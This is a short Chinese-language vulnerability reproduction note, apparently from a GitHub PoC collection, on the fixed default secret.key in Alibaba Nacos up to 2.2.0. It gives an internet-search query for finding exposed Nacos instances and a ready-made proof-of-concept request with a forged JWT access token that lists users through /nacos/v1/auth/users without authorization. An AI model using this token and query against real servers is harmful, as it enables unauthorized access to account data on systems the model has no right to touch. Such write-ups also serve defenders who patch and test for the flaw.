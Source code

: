 # Nacos secret.key 默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

```
Alibaba Nacos <= 2.2.0
```

## 网络测绘

```
app="NACOS"
```

## 漏洞复现

登陆页面

![image-20230417093555107](images/image-20230417093555107.png)

漏洞原因是使用了固定的Key

![image-20230417093624167](images/image-20230417093624167.png)

验证POC

```
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![image-20230417093649928](images/image-20230417093649928.png)
